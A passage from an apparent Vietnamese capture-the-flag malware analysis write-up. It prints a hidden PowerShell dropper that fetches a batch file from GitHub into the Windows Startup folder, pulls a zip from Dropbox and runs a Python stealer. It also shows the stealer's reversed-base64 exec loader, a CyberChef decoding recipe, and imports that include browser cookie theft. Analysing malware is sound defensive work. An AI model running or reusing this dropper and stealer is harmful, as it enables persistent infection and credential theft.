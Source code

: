 start /min powershell.exe -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object -TypeName System.Net.WebClient).DownloadFile('https://github.com/bluecrustacean/oceanman/raw/main/ud.bat', '%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\WindowsSecure.bat'); (New-Object -TypeName System.Net.WebClient).DownloadFile('https://www.dropbox.com/scl/fi/uuhwziczwa79d6r8erdid/T602.zip?rlkey=fq4lptuz5tvw2qjydfwj9k0ym&st=mtz77hlx&dl=1', 'C:\\Users\\Public\\Document.zip'); Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('C:/Users/Public/Document.zip', 'C:/Users/Public/Document'); Start-Sleep -Seconds 60; C:\\Users\\Public\\Document\\python.exe C:\Users\Public\Document\Lib\leak.py; Remove-Item 'C:/Users/Public/Document.zip' -Force" && exit
```
Tóm lại ```powershell``` làm các công việc sau:

Thiết lập persistence: .bat nằm trong thư mục Startup → mã độc sẽ chạy mỗi khi Windows khởi động.

Tải payload từ xa: .zip tải từ Dropbox → tránh phát hiện sớm.

Chạy mã độc Python: thông qua ```leak.py``` – tên gợi ý nó có thể "leak" (rò rỉ) dữ liệu.

Ẩn mình: Chạy PowerShell ẩn, tự xóa .zip, không hiện cửa sổ → khó bị người dùng phát hiện.

3. ***leak.py***

```
_ = lambda __ : __import__('base64').b64decode(__[::-1]);exec((_)(b'=kSKnoFWoxWW5d2bYl3avlVajlDUWZETjdkTwZVMs9mUyoUYiRkThRWbodlWYlUNWFDZ3RFbkBVVXJ1RXtmVPJVMKR1Vsp1Vj1mUZRFbOFmYGRGMW1GeoJVMadlVYxmbSJjThN2RxMFVF9WeZRlTr1UMSllUtBHWZVlSxV1aW9UTWplcX1WNYRmM0VUWxI0UhFjShVlaKdlTHdGeWxGbHZ1a180VrpFakBjWzZ1a5cUTWJ1VXxmVPd1RSJnVxgWYiVUMM90VxUlVYJkVWJjRwImVONjWHhXaRJjU1Z1Mj<snipped>'))
```

Nó bị mã hóa ```base64``` lồng nhau. Tôi đã sử dụng công thức CyberChef tuyệt vời này để giải mã tập lệnh


```
Label('top')
Regular_expression('User defined','[a-zA-Z0-9+/=]{30,}',true,true,false,false,false,false,'List matches')
Reverse('Character')
From_Base64('A-Za-z0-9+/=',true,false)
Conditional_Jump('psutil',true,'top',100)
```
![image](/assets/data/l3akctf-8.png)

```python
import psutil
import platform
import json
from datetime import datetime
from time import sleep
import requests
import socket
from requests import get
import os
import re
import subprocess
from uuid import getnode as get_mac
import browser_cookie3 as steal, requests, base64, random, string, zipfile, shutil, os, re, sys, sqlite3
from cryptography.hazmat.primitives.ciphers import (Cipher, algorithms, modes)
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
from cryptography.hazmat.backends import default_backend
from Crypto.Cipher import AES
from base64 import b64decode, b64encode
from subprocess import Popen, PIPE
from json import loads, dumps
```